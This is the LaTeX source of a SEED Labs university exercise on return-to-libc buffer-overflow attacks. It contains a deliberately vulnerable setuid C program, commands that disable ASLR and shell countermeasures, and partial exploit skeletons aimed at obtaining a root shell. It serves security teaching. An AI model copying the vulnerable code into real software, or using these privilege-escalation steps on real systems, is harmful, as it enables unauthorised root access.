\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}






\lhead{\bfseries SEED Labs -- Return-to-libc Attack Lab}

\newcommand{\retFigs}{./Figs}

\def \code#1 {\fbox{\scriptsize{\texttt{#1}}}}

\begin{document}

\begin{center}
{\LARGE Return-to-libc Attack Lab}

\vspace{0.05in}
Updated on January 12, 2020
\end{center}

\seedlabcopyright{2006 - 2016}


% *******************************************
% SECTION
% ******************************************* 
\section{Overview}

The learning objective of this lab is for students to gain the
first-hand experience on an interesting variant of buffer-overflow
attack; this attack can bypass an existing protection scheme currently
implemented in major Linux operating systems.  A common way to exploit
a buffer-overflow vulnerability is to overflow the buffer with a
malicious shellcode, and then cause the vulnerable program to jump to
the shellcode stored in the stack. To prevent these types of
attacks, some operating systems allow programs to 
make their stacks non-executable; therefore, jumping to
the shellcode causes the program to fail.

Unfortunately, the above protection scheme is not fool-proof. There
exists a variant of buffer-overflow attacks called 
\textit{Return-to-libc}, which does not need an executable stack; it
does not even use shellcode. Instead, it causes the vulnerable
program to jump to some existing code, such as the \texttt{system()}
function in the \texttt{libc} library, which is already loaded into 
a process's memory space. 


In this lab, students are given a program with a buffer-overflow
vulnerability; their task is to develop a Return-to-libc attack
to exploit the vulnerability and finally to gain the root privilege.
In addition to the attacks, students will be guided to walk through
some protection schemes implemented in Ubuntu to
counter buffer-overflow attacks. 
This lab covers the following topics:

\begin{itemize}[noitemsep]
\item Buffer overflow vulnerability
\item Stack layout in a function invocation and Non-executable stack 
\item Return-to-libc attack and Return-Oriented Programming (ROP)
\end{itemize}


\noindent
\fbox{\parbox{\textwidth}{
\noindent
\textbf{Customization by instructor.} Instructors should customize 
this lab by choosing a value for the \texttt{BUF\_SIZE} constant, 
which is used during the compilation of the vulnerable program. 
Different values can make the solutions
different. Please pick a value 
between \texttt{0} and \texttt{200} for this lab. 

\vspace{0.05in}
\begin{center}
\textbf{\large The \texttt{BUF\_SIZE} value for this lab is: \underline{\ \ \ \ \ \ \ \ \ \ \ }}
\end{center}
}}
 
\paragraph{Readings and videos.}
Detailed coverage of the return-to-libc attack can be found in the following:

\begin{itemize}
\item Chapter 5 of the SEED Book, \seedbook
\item Section 5 of the SEED Lecture at Udemy, \seedcsvideo
\end{itemize}


\paragraph{Lab environment.} \seedenvironment





% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Turning off countermeasures}

You can execute the lab tasks using our pre-built \ubuntu virtual machines.
\ubuntu and other Linux distributions have implemented several
security mechanisms to make the buffer-overflow attack difficult.
To simplify our attacks, we need to disable them first.


\paragraph{Address Space Randomization.}
\ubuntu and several other Linux-based systems use address space
randomization to randomize the starting address of heap and
stack, making guessing the exact addresses difficult. Guessing
addresses is one of the critical steps of buffer-overflow attacks.  In
this lab, we disable this feature using the following command:

\begin{lstlisting}
$ sudo sysctl -w kernel.randomize_va_space=0
\end{lstlisting}




\paragraph{The StackGuard Protection Scheme.}
The GCC compiler implements a security mechanism called
\textit{StackGuard} to prevent buffer overflows. In the presence of this
protection, buffer overflow attacks do not work. We can disable this
protection during the compilation using the
\emph{-fno-stack-protector} option. For example, to compile a program
\texttt{example.c} with StackGuard disabled, we can do the following:


\begin{lstlisting}
$ gcc -fno-stack-protector example.c
\end{lstlisting}


\paragraph{Non-Executable Stack.} \ubuntu used to allow executable stacks,
but this has now changed. The binary images of programs (and shared
libraries) must declare whether they require executable stacks or not,
i.e., they need to mark a field in the program header. Kernel or dynamic
linker uses this marking to decide whether to make the stack of this
running program executable or non-executable. This marking is done
automatically by the recent versions of {\tt gcc}, and by default, 
stacks are set to be non-executable.  
To change that, use the following option when compiling programs:


\begin{lstlisting}
For executable stack:
$ gcc -z execstack  -o test test.c

For non-executable stack:
$ gcc -z noexecstack  -o test test.c
\end{lstlisting}



Because the objective of this lab is to show that the non-executable stack
protection does not work, you should always compile your program using the 
{\tt "-z noexecstack"} option in this lab.


\paragraph{Configuring \texttt{/bin/sh} (Ubuntu 16.04 VM only).} In both Ubuntu 12.04 and
Ubuntu 16.04 VMs, the \texttt{/bin/sh} symbolic link points to
the \texttt{/bin/dash} shell. However, the \texttt{dash} program
in these two VMs have an important difference.
The \texttt{dash} shell in Ubuntu 16.04 has a countermeasure
that prevents itself from being executed in a \setuid process.
If \texttt{dash} is 
executed in a \setuid process, it immediately
changes the effective user ID to the process's real user ID, essentially
dropping its privilege. The \texttt{dash} program in Ubuntu 12.04 does not have this
behavior.

Since our victim program is a \setuid program, and our
attack uses the \texttt{system()} function to run a command of our
choice. This function does not run our command directly; it 
invokes \texttt{/bin/sh} to run our command. Therefore, 
the countermeasure in \texttt{/bin/dash} immediately drops
the \setuid privilege before executing our command, making our 
attack more difficult. To disable this protection, 
we link \texttt{/bin/sh} to another shell that does not
have such a countermeasure.
We have installed a shell program
called \texttt{zsh} in our Ubuntu 16.04 VM. We use the following
commands to link \texttt{/bin/sh} to \texttt{zsh} (there is no need to do
these in Ubuntu 12.04):


\begin{lstlisting}
$ sudo ln -sf /bin/zsh /bin/sh
\end{lstlisting}


It should be noted that the countermeasure implemented in
\texttt{dash} can be circumvented. We will 
do that in a later task. 



\subsection{The Vulnerable Program}

\begin{lstlisting}[caption={The vulnerable program \texttt{retlib.c}}]
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* Changing this size will change the layout of the stack.
 * Instructors can change this value each year, so students
 * won't be able to use the solutions from the past.
 * Suggested value: between 0 and 200 (cannot exceed 300, or 
 * the program won't have a buffer-overflow problem). */
#ifndef BUF_SIZE
#define BUF_SIZE 12 
#endif

int bof(FILE *badfile)
{
    char buffer[BUF_SIZE];

    /* The following statement has a buffer overflow problem */
    fread(buffer, sizeof(char), 300, badfile);

    return 1;
}

int main(int argc, char **argv)
{
    FILE *badfile;

    /* Change the size of the dummy array to randomize the parameters
       for this lab. Need to use the array at least once */
    char dummy[BUF_SIZE*5];  memset(dummy, 0, BUF_SIZE*5);

    badfile = fopen("badfile", "r");
    bof(badfile);

    printf("Returned Properly\n");
    fclose(badfile);
    return 1;
}
\end{lstlisting}


The above program has a buffer overflow vulnerability. It first reads
an input of size \texttt{300} bytes from a file called \texttt{badfile} into a buffer
of size \texttt{BUF\_SIZE}, which is less than \texttt{300}.
Since the function \texttt{fread()} does not check
the buffer boundary, a buffer overflow will occur.
This program is a root-owned \setuid program, so if a normal user can exploit this buffer
overflow vulnerability, the user might be able to get a root
shell.  It should be noted that the program gets its input from a file
called \texttt{badfile}, which is provided by users. Therefore, we can
construct the file in a way such that when
the vulnerable program copies the file contents into its buffer, a root
shell can be spawned. 



\vspace{0.1in}
\paragraph{Compilation.}
Let us first compile the code and turn it into a root-owned \setuid
program. Do not forget to include the 
\texttt{-fno-stack-protector} option (for turning off the StackGuard
protection) and the \texttt{"-z noexecstack"} option (for turning on
the non-executable stack protection). 
It should also be noted that changing ownership must be done before
turning on the \setuid bit, 
because ownership changes cause the \setuid bit to be turned off.


\begin{lstlisting}
// Note: N should be replaced by the value set by the instructor
$ gcc -DBUF_SIZE=N -fno-stack-protector -z noexecstack -o retlib retlib.c
$ sudo chown root retlib           
$ sudo chmod 4755 retlib           
\end{lstlisting}


\paragraph{For instructors.}
To prevent students from using the solutions from the past (or from those
posted on the Internet), instructors can change the
value for \texttt{BUF\_SIZE} by requiring students to compile the
code using a different \texttt{BUF\_SIZE} value.
Without the \texttt{-DBUF\_SIZE}
option, \texttt{BUF\_SIZE} is set to the default value \texttt{12} (defined
in the program).
When this value changes, the layout of the stack
will change, and the solution will be different.
Students should ask their instructors for
the value of \texttt{N}.



\subsection{Task 1: Finding out the addresses of \texttt{libc} functions} 

In \linux, when a program runs, the \texttt{libc} library will be loaded
into memory. When the memory address randomization is turned off,
for the same program, the library is always loaded in the same memory
address (for different programs, the memory addresses
of the \texttt{libc} library may be different).
Therefore, we can easily find out the address of \texttt{system()}
using a debugging tool such as \texttt{gdb}. Namely, we can debug
the target program \texttt{retlib}. Even though the program is a root-owned \setuid program,
we can still debug it, except that the privilege will be dropped~(i.e., the effective user ID
will be the same as the real user ID).
Inside \texttt{gdb}, we need to type the \texttt{run} command to execute the target program once,
otherwise, the library code will not be loaded.
We use the \texttt{p} command~(or \texttt{print}) to print out the address of
the \texttt{system()} and \texttt{exit()} functions~(we will need \texttt{exit()} later on).

\begin{lstlisting}
$ touch badfile
$ gdb -q retlib     (*@\reflectbox{\ding{217}} Use "Quiet" mode@*)
Reading symbols from stack...(no debugging symbols found)...done.
gdb-peda$ run
......
gdb-peda$ p system
$1 = {<text variable, no debug info>} (*@\textbf{0xb7e42da0}@*) <__libc_system>
gdb-peda$ p exit
$2 = {<text variable, no debug info>} (*@\textbf{0xb7e369d0}@*) <__GI_exit>
gdb-peda$ quit
\end{lstlisting}

It should be noted that even for the same program, if we change it from a \setuid
program to a non-\setuid program, the \texttt{libc} library may not be loaded
into the same location. Therefore, when we debug the program, we need
to debug the target \setuid program; otherwise, the address we
get may be incorrect.




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Putting the shell string in the memory}

Our attack strategy is to jump to the \texttt{system()} function and 
get it to execute an arbitrary command. Since we would like to 
get a shell prompt, we want the \texttt{system()} function
to execute the \texttt{"/bin/sh"} program. Therefore, the 
command string \texttt{"/bin/sh"} must be put in the memory first and 
we have to know its address (this address needs to be passed to 
the \texttt{system()} function). There are many ways to
achieve these goals; we choose a method that uses environment variables.
Students are encouraged to use other approaches. 


When we execute a program from a shell prompt, the shell actually 
spawns a child process to execute the program, and all 
the exported shell variables become the environment variables 
of the child process. This creates an easy way for us to 
put some arbitrary string in the child process's memory. 
Let us define a new shell variable \texttt{MYSHELL}, and let it
contain the string \texttt{"/bin/sh"}. From the following commands,
we can verify that the string gets into the child process, and it is 
printed out by the \texttt{env} command running inside the child process.

\begin{lstlisting}
$ export MYSHELL=/bin/sh
$ env | grep MYSHELL
MYSHELL=/bin/sh
\end{lstlisting}

We will use the address of this variable as an argument to {\tt system()} call.
The location of this variable in the memory can be found out easily using the 
following program: 

\begin{lstlisting}
void main(){
   char* shell =  getenv("MYSHELL");
   if (shell) 
      printf("%x\n", (unsigned int)shell);
}
\end{lstlisting}


If the address randomization is turned off, you will find out that the same 
address is printed out. However, when you run the 
vulnerable program \texttt{retlib}, the address of the environment
variable might not be exactly the same as the one that you get by running 
the above program; such an address can even change when you change
the name of your program (the number of characters in the file
name makes a difference). The good news is, the address of the shell will
be quite close to what you print out using the above program. Therefore,
you might need to try a few times to succeed.



\subsection{Task 3: Exploiting the buffer-overflow vulnerability} 

We are ready to create the content of \texttt{badfile}. Since 
the content involves some binary data (e.g., the address of the 
\texttt{libc} functions), we can use C or Python to do the construction.  


\paragraph{Using Python.}
We provide a skeleton of the code in the following, with the essential 
parts left for you to fill out.


\begin{lstlisting}
#!/usr/bin/python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000       # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4,byteorder='little')

Y = 0
system_addr = 0x00000000   # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4,byteorder='little')

Z = 0
exit_addr = 0x00000000     # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4,byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
\end{lstlisting}
 
You need to figure out the three addresses and the values for 
\texttt{X}, \texttt{Y}, and \texttt{Z}. 
If your values are incorrect,
your attack might not work. In your report, you need to
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


\paragraph{Using C.}
We also provide you with a skeleton of C code, with the essential 
parts left for you to fill out.


\begin{lstlisting}
/* exploit.c */

#include <stdlib.h>
#include <stdio.h>
#include <string.h>
int main(int argc, char **argv)
{
  char buf[40];
  FILE *badfile;

  badfile = fopen("./badfile", "w");

  /* You need to decide the addresses and 
     the values for X, Y, Z. The order of the following 
     three statements does not imply the order of X, Y, Z.
     Actually, we intentionally scrambled the order. */
  *(long *) &buf[X] = some address ;   //  "/bin/sh"    (*@\ding{80}@*)
  *(long *) &buf[Y] = some address ;   //  system()     (*@\ding{80}@*)
  *(long *) &buf[Z] = some address ;   //  exit()       (*@\ding{80}@*)

  fwrite(buf, sizeof(buf), 1, badfile);
  fclose(badfile);
}
\end{lstlisting}

You need to figure out the addresses in lines marked by \ding{80}, as well as to
find out where to store those addresses (i.e., the values 
for \texttt{X}, \texttt{Y}, and \texttt{Z}). If your values are incorrect, 
your attack might not work. In your report, you need to 
describe how you decide the values for {\tt X}, {\tt Y} and {\tt
Z}. Either show us your reasoning or, if you use a trial-and-error approach,
show your trials.


After you finish the above program, compile and run it; this will
generate the contents for \texttt{badfile}. Run the vulnerable program 
\texttt{retlib}. If your exploit is implemented correctly, when the function
\texttt{bof()} returns, it will return to the \texttt{system()} function,
and execute \texttt{system("/bin/sh")}. If the vulnerable program is
running with the root privilege, you can get the root shell at this
point.

\begin{lstlisting}
$ gcc -o exploit exploit.c
$./exploit         // create the badfile
$./retlib          // launch the attack by running the vulnerable program
# <---- You've got a root shell! 
\end{lstlisting}




\paragraph{Attack variation 1:}
Is the \texttt{exit()} function really necessary? Please try 
your attack without including the address of this function in
\texttt{badfile}. Run your attack again, report and explain your
observations.  



\paragraph{Attack variation 2:} 
After your attack is successful, change the file name of \texttt{retlib}
to a different name, making sure that the length of the new 
file name is different. For example, you can change it to \texttt{newretlib}. 
Repeat the attack (without changing the content of {\tt badfile}). 
Will your attack succeed or not?  If it does not succeed, explain why.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Turning on address randomization}

In this task, let us turn on the Ubuntu's address randomization protection  
and see whether this protection is effective against 
the Return-to-libc attack. First, let us 
turn on the address randomization:  

\begin{lstlisting}
$ sudo sysctl -w kernel.randomize_va_space=2
\end{lstlisting}


Please run the same attack used in the previous task. Can you succeed? 
Please describe your observation and come up with your hypothesis. 
In the exploit program used in constructing \texttt{badfile}, we
need to provide three addresses and the values for \texttt{X}, \texttt{Y},
and \texttt{Z}. Which of these six values are incorrect if 
the address randomization is turned on. Please provide evidence in your
report. 


If you plan to use \texttt{gdb} to conduct your investigation, you should
be aware that \texttt{gdb} by default disables the address space randomization for the
debugged process, regardless of whether the address randomization is 
turned on in the underlying operating system or not. Inside the
\texttt{gdb} debugger, you can run \texttt{"show disable-randomization"} 
to see whether the randomization is turned off or not.
You can use \texttt{"set disable-randomization on"} and
\texttt{"set disable-randomization off"} to change the setting. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Defeat Shell's countermeasure}

The purpose of this task is to launch the return-to-libc attack after 
the shell's countermeasure is enabled. 
Before doing the attack in Tasks 1 to 4, we relinked \texttt{/bin/sh} to \texttt{/bin/zsh},
instead of to \texttt{/bin/dash} (the original setting). This is because some shell programs, such 
as \texttt{dash} and \texttt{bash}, have a countermeasure that automatically 
drops privileges when they are executed in a \setuid process. In this task, we 
would like to defeat such a countermeasure, i.e., we would like to get a root shell even though
the \texttt{/bin/sh} still points to \texttt{/bin/dash}.   
Let us first change the symbolic link back:

\begin{lstlisting}
$ sudo ln -sf /bin/dash /bin/sh
\end{lstlisting}


When \texttt{/bin/sh} points to \texttt{/bin/dash}, we cannot directly return 
to the \texttt{system()} function, because \texttt{system()} actually uses 
\texttt{/bin/sh} to execute commands, and \texttt{/bin/dash} will 
drop the privilege. There are many ways to solve this problem. One way 
is to return to a different function that does not depend on \texttt{/bin/sh}. 
Another way is to invoke \texttt{setuid(0)} before 
invoking \texttt{system()}. The \texttt{setuid(0)} call sets both real user ID and  
effective user ID to 0, turning the process into a non-\setuid one (it still has 
the root privilege). It turns out that this is quite challenging to do 
using the return-to-libc technique. 


There are two primary challenges: (1) how to 
chain multiple functions (with arguments) together, and (2) how to
pass zeros as arguments without including any zero in the malicious 
input? In this task, we focus on addressing the fist challenge; 
we are allowed to ignore the second challenge and 
put zeros in the input.
In the vulnerable program, we 
intentionally used \texttt{fread()}, which, unlike \texttt{strcpy()},
is not affected by zeros. 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 6: Defeat Shell's countermeasure without putting zeros in input}


In this task, we will address the second challenge in Task 5, i.e., we are 
not allowed to put any zero (binary zero) 
in the input (the \texttt{badfile}). In real-world attacks,
copying data into buffer often uses functions like \texttt{strcpy()}, which
terminates the copying when zero is encountered. To simulate the real-world
situation, we added this constraint. 

The main idea to circumvent this restriction 
is to first put a non-zero value in the place where
the \texttt{setuid()} function gets its argument, but before 
\texttt{setuid()} is invoked, we invoke a sequence of 
functions, such as \texttt{sprintf()} to change the non-zero
value to zero. After that, we invoke \texttt{setuid()}, but now 
its argument is already zero. Basically, we first put our payload 
on the stack (without zeros), and then use the return-to-libc technique to self-modify
the data placed on the stack. 

To achieve this goal, we need to
be able to chain a sequence of functions together, some of which
have multiple arguments. The basic return-to-libc technique used in Tasks 3 
and 5 has a limit on the number of functions and their arguments. 
We need a more generic technique called 
\textit{Return Oriented Programming (ROP)}, which allows us to 
chain arbitrary number of functions (with or without arguments)
together. The return-to-libc attack conducted in Task 3 and 5 
is just a special case of ROP. 


\paragraph{Note to students and instructors.}
This task is quite challenging, and we suggest making it optional. Do check with
your instructor and confirm whether this is optional or required. 
ROP has been a quite active research area, so for students who are into
research in this area, we strongly suggest them to do this task.  



% *******************************************
% SECTION
% ******************************************* 
\section{Guidelines: Understanding the Function Call Mechanism}

The guidelines in this section only address Tasks 1 to 5. 
Guidelines for Task 6 are quite complicated, 
and the SEED book (2nd edition) spends 16 pages (Chapter 5.5) 
to explain how to do it. Please refer to the book for guidelines. 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Understanding the stack layout}

To know how to conduct Return-to-libc attacks, we need to 
understand how stacks work.  We use a small C program to understand 
the effects of a function invocation on the stack. More detailed 
explanation can be found in the SEED book and SEED lecture. 


\begin{lstlisting}
/* foobar.c */
#include<stdio.h>
void foo(int x)
{
  printf("Hello world: %d\n", x);
}

int main()
{
  foo(1);
  return 0;
}
\end{lstlisting}

We can use {\tt "gcc -S foobar.c"} to
compile this program to the assembly code.
The resulting file {\tt foobar.s} will look like the following:


\begin{lstlisting}
    ......
  8 foo:
  9         pushl   %ebp
 10         movl    %esp, %ebp
 11         subl    $8, %esp
 12         movl    8(%ebp), %eax   
 13         movl    %eax, 4(%esp)
 14         movl    $.LC0, (%esp)  : string "Hello world: %d\n"
 15         call    printf
 16         leave
 17         ret
    ......
 21 main:
 22         leal    4(%esp), %ecx
 23         andl    $-16, %esp
 24         pushl   -4(%ecx)
 25         pushl   %ebp
 26         movl    %esp, %ebp
 27         pushl   %ecx
 28         subl    $4, %esp
 29         movl    $1, (%esp)
 30         call    foo
 31         movl    $0, %eax
 32         addl    $4, %esp
 33         popl    %ecx
 34         popl    %ebp
 35         leal    -4(%ecx), %esp
 36         ret
\end{lstlisting}
 


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Calling and entering {\tt foo()}}

Let us concentrate on the stack while calling {\tt foo()}. We can ignore the stack
before that. Please note that line numbers instead of instruction addresses are
used in this explanation. 



\begin{figure}[htb]
	\centering
	
\includegraphics[width=0.95\textwidth]{\retFigs/enter_leave_foo.pdf}
	\caption{Entering and Leaving {\tt foo()}}
	\label{fig:enter_leave_foo}
\end{figure}


\begin{itemize}
\item \textbf{Line 28-29:}:
These two statements push the value $1$, i.e. the argument to the {\tt foo()}, 
into the stack. This operation increments {\tt \%esp} by four. The stack
after these two statements is depicted in Figure~\ref{fig:enter_leave_foo}(a).

\item \textbf{Line 30: \texttt{call foo}}: 
The statement pushes the address of the next instruction that 
immediately follows the {\tt call} statement into the 
stack (i.e the return address), and then jumps to the 
code of {\tt foo()}. 
The current stack is depicted in Figure~\ref{fig:enter_leave_foo}(b).

\item \textbf{Line 9-10}:
The first line of the function {\tt foo()} pushes {\tt \%ebp} into
the stack, to save the previous frame pointer. The second
line lets {\tt \%ebp} point to the current frame. The current stack 
is depicted in Figure~\ref{fig:enter_leave_foo}(c). 

\item \textbf{Line 11: \texttt{subl \$8, \%esp}}:
The stack pointer is modified to allocate space (8 bytes) for 
local variables and the two arguments passed to {\tt printf}. 
Since there is no local variable in function {\tt foo}, the
8 bytes are for arguments only. 
See Figure~\ref{fig:enter_leave_foo}(d). 

\end{itemize}


\subsection{Leaving {\tt foo()}}

Now the control has passed to the function {\tt foo()}. Let us see what happens
to the stack when the function returns.

\begin{itemize}
\item \textbf{Line 16: \texttt{leave}}: This
instruction implicitly performs two instructions (it was a macro
in earlier x86 releases, but was made into an instruction later):
\begin{verbatim}
    mov  %ebp, %esp
    pop  %ebp
\end{verbatim}
The first statement releases the stack space allocated for the function; 
the second statement recovers the previous frame pointer. 
The current stack is depicted in Figure~\ref{fig:enter_leave_foo}(e). 

\item \textbf{Line 17: \texttt{ret}}: This instruction simply pops the return 
address out of the stack, and then jump to the return address.
The current stack is depicted in Figure~\ref{fig:enter_leave_foo}(f).

\item \textbf{Line 32: \texttt{addl \$4, \%esp}}: Further restore the stack by
releasing more memories allocated for {\tt foo}. 
As you can see that the stack is now in exactly the same state as it was
before entering the function {\tt foo} (i.e., before line 28). 
\end{itemize}



% *******************************************
% SECTION
% *******************************************
\section{Submission}

\seedsubmission


\end{document}

